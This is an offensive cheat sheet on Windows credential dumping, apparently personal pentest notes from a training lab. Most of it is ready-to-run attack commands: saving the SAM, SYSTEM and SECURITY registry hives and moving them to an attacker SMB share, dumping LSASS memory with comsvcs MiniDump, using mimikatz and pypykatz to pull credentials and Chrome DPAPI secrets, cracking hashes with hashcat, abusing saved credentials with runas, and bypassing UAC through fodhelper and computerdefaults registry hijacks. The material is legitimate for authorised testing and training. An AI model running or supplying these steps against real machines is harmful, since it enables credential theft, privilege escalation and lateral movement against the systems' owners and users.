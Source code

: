 ```yaml
---
title: Windows Credential Dumping
category: Post-Exploitation
tags: [windows, credential-dumping, lsass, mimikatz, registry, dpapi]
tools: ['secretsdump', 'smbserver', 'mimikatz', 'hashcat', 'pypykatz' ]
---
```

Post-exploitation techniques for extracting credentials on Windows, including registry hive dumping, LSASS memory capture, DPAPI secrets, and Mimikatz usage. Enables escalation and lateral movement.

# Windows Credential Dumping

## Registry Hives

Back up the registry hives as local admin, security hive can contain cached domain creds and other valuable data.

### Copy target hive

````powershell
# Make a copy of the hives
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

# Mount local share on attack box
sudo smbserver.py -smb2support CompData /home/ltnbob/Documents/

# Copy the hives
C:\> move sam.save \\10.10.15.16\CompData
C:\> move security.save \\10.10.15.16\CompData
C:\> move system.save \\10.10.15.16\CompData
````

### Dumping hashes with secretsdump.py

secretsdump.py will extract the system bootkey needed to dump the local SAM hashes.

`````bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Dumping local SAM hashes (uid:rid:lmhash:nthash)
`````

### Cracking hashes with Hashcat

Populate retrieved hashes into > hashestocrack.txt
For LM '-m' code see [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes)

#### Running Hashcat against NT hashes

```bash
# Craacking NT hashes
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

#### DCC2 hashes

These are local, hashed copies of network credential hashes.

```bash
hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
```

### DPAPI - Data Protection Application Programming Interface

```powershell
C:\Users\Public> mimikatz.exe

mimikatz: dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
```

### Remote dumping & LSA secrets

With local admin privlages

```bash
# Dumping LSA secrets remotely
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

# Dumping SAM Remotely
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

---

## LSASS - Local Security Authority Subsystem Service

LSASS stores credentials that have ***active logon*** sessions on Windows systems.

### Dumping LSASS process memory

There is a GUI method for dumping the Local Security Authority Process with Task Manager.

Determine what process ID (`PID`) is assigned to `lsass.exe`. 

```powershell
# cmd.exe
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc

# PowerShell
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass

# Create a dump file using PowerShell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

Copy the dump over using [this method](#copy-target-hive)

### [Pypykatz](https://github.com/skelsec/pypykatz) to extract credentials

> Mimikatz implementation in pure Python 

```bash
# Extract hashes
pypykatz lsa minidump /home/peter/Documents/lsass.dmp

# Crack NT hashes found
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Windows Vault and Credential Manager

### Enumerating credentials with cmdkey

```cmd
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Look for 'interactive=' and execute runas to impersonate the user:

```cmd
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

### Extracting credentials with [Mimikatz](https://github.com/ParrotSec/mimikatz)

Dump credentials from memory using the `sekurlsa` module, or manually decrypt credentials using the `dpapi` module.

May need to bypass UAC if no admin rights, impersonation does not grant admin permissions.

```cmd
# Target the LSASS process with sekurlsa:
C:\Users\Administrator\Desktop> mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman
```

Methods for getting passed UAC if no admin access:

```cmd
# fodhelper.exe
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

# computerdefaults.exe
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```
